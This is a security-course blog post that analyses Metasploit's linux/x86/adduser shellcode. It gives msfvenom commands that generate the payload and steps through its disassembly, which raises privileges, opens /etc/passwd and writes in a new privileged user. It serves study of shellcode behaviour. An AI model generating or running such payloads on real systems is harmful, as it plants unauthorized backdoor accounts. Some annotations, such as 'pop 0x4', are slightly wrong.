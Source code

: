```yaml
---
layout: post
title: SLAE Exercise 5 (part 3) - Add User
subtitle: Shellcode Analysis 3 - Add User
tags: [SLAE]
---
```


linux/x86/adduser
======

The final chosen shellcode to be used from msfvenom is the 'adduser' payload. This adds a user to the system that it is executed on. The parameters to be used for this payload can be seen with the following command:

    msfvenom -p linux/x86/adduser --payload-options
	
From this it can be seen that there are two required payloads:

![payloadoptions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/payloadoptions.png)

To keep things simple, these default options will be left, which should create the user with the username and password of 'metasploit'. The command that is used to create a payload that will create the new user is as below:

	msfvenom -p linux/x86/adduser  -f raw > adduserraw

Once this has been generated it can be disassembled using ndisasm to analyse the instructions used with the following command:

	ndisasm -b 32 ./adduserraw

![ndisasm](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/ndisasm.png)


Stepping through the instructions
------

Each of the instructions seen here will be stepped through, describing what is happening at each step. 

**Setreuid**

int setgid(gid_t gid);

The 'setreuid' syscall sets the real and/or effective user or group ID of the calling process. As both values set are 0 the running process will have permissions to modify the 'passwd' file. 

```
Xor ecx, ecx - Clears the ecx register.

Mov ebx, ecx - Move 0 to the ebx register, clearing it.

Push byte +0x46 -	Pushes 70 to the stack.

Pop eax	Pop 70 from the stack into eax for the syscall 'setreuid'

Int 0x80 - An interupt which will call 'setreuid'.
```

**Open**

int open(const char *pathname, int flags, mode_t mode);

For this shellcode, the 'open' syscall is used to open the file that is to be written to in order to add the new user. This is the 'passwd' file found at '/etc/passwd. This can be seen in the below instructions pushed to the stack and then pointed to by ebx: 

```
Push byte +0x5 - Push 5 to the stack.

Pop eax - Pop 5 from the stack into eax for the 'open' syscall.

Xor ecx, ecx - Clear the ecx register.

Push ecx - Push 0 to the stack from the cleared ecx register.

Push dword 0x64777373 - These instructions push '/etc//passwd' to the stack.
Push dword 0x61702f2f	
Push dword 0x6374652f	

Mov ebx, esp - Move the stack pointer into ebx to be a pointer to the pathname to open.

Inc ecx - Increment ecx to be 1.

Mov ch, 0x4 - Move 4 to ch.

Int 0x80 - Interupt to call the 'open' syscall
```

**Write**

ssize_t write(int fd, const void *buf, size_t count);

The 'write' syscall is used to add the new user to the file that was opened previously. This is done using the returned file descriptor. The call value couldn't be completely observed within the disassembled code obtained from Ndisasm previosuly. From debugging the shellcode with GDB the following instuctions could be observed:

![writeinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/realinstructions.png)

```
Xchg ebx, eax - Move the return value of the 'open' syscall into ebx. The return value is the file descriptor.

Call 0x80480a7 - Call 0x80480a7, which will start from the instruction 'pop ecx'. This is used as a call-pop to get the address of the value required onto the stack.

Insd - The following contain the value that is pointed to from using 'call', and so hold no significance as instructions. 
Gs jz 0x90	
Jnc 0xa1	
Insb	
Outsd	
Imul esi, [edx+edi+0x41], dword 0x49642f7a	
Jnc 0xa7	
Xor al, 0x70	
Xor al, 0x49	
Push edx	
Arpl [edx], di	
Xor [edx], bh	
Xor [edx], bh	
Cmp ch, [edi]	
Cmp ch, [edi]	
Bound ebp, [ecx+0x6e]	
Das	
Jnc 0xba	
Or bl, [ecx-0x75]	

pop ecx	- Move the pointer from 'call' into ecx for the required *buf parameter. 

mov edx, DWORD PTR [ecx-0x4] - Move the required count into edx, this call writes up to 'count' bytes from the buffer sepcified in ecx.

push 0x4 - Push 4 to the stack.

pop 0x4 - Pop 4 to eax to be used for the syscall 'write'.

Int 0x80 - Interupt to call the 'write' syscall.
```

**Exit**

The instructions for this section are as follows:

```
Push byte +0x1	Push 1 to the stack to be used for the exit syscall
Pop eax	Pop 1 to eax for the exit syscall
Int 0x80	Interupt calling the syscall to exit gracefully
```

Strace
------

Strace was utilised to observe the syscalls used and the parameters. The command used and screenshot of the output can be observed below:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

![Strace](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/strace.png)


GDB
------

To observe the shellcode executing within GDB, the elf payload created will be analysed. The command used to create this code is as follows:

    msfvenom -p linux/x86/adduser  -f elf > adduserelf

With the created payload, there are no symbols within the binary and so 'readelf' has to be used to find the entry point for the binary. This can be run as follows:

    Readelf --headers ./adduserelf

The output of this is as below:

![readelf](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/readelf.png)

As can be seen, the entrypoint in this instance would be the address '0x8048054'. This can now be observed within GDB when setting a breakpoint at this address and running the program:

![gdbinstructions](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/gdbinstructions.png)


**setreuid**

Just before the first syscall for 'setreuid', the registers were examined to determine if they were as would be expected from the earlier analysis:

![setreuid](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/setreuidregisters.png)


**Open**

As part of the 'open' syscall 3 values are pushed to the stack which are subsequently pointed to within the ebx register. The instructions can be seen below:

![openpush](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/openpush.png)

Once these have been pushed to the stack, the values can be observed:

![etcpasswd](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/etcpasswd.png)

It is clear that '/etc//passwd' is pushed to the stack to be pointed to within ebx to be the file that will be written to. This is where the new user will be inserted. 

Interestingly here, 0x4 is moved into ch to change the value of ecx from 0x1 (1) to 0x401 (1025). This is for the 'flags' parameter of the syscall. The values of the registers before the syscall is called can also be observed within this screenshot. Note that the value of ebx is the same as esp and is pointing to the  '/etc//passwd' value discussed before:

![flags](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/flags.png)


**Write**

The values of the registers before the next syscall 'write' are observed. The value in ebx is the file descriptor that was returned from the 'open' syscall, the ecx register will be discussed below, and the edx register contains the size to be written. This wasn't seen in the Ndisasm dissasembly and within GDB used the following instruction to get the required size:

    Mov edx, DWORD PTR [ecx-0x4]
	
The value pointed to within ecx is the pointer that was pushed to the stack when 'call' was used. It can be seen that this contains the values to write to the opened file:

![examineecx](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writepointer.png)

The values in the register before the syscall:

![writeregisters](https://raw.githubusercontent.com/14Deep/14deep.github.io/master/_posts/Images/EX5/part3/writesyscall.png)


**Exit**

The rest of the shellcode gracefully exits the program which will not require walking through. 

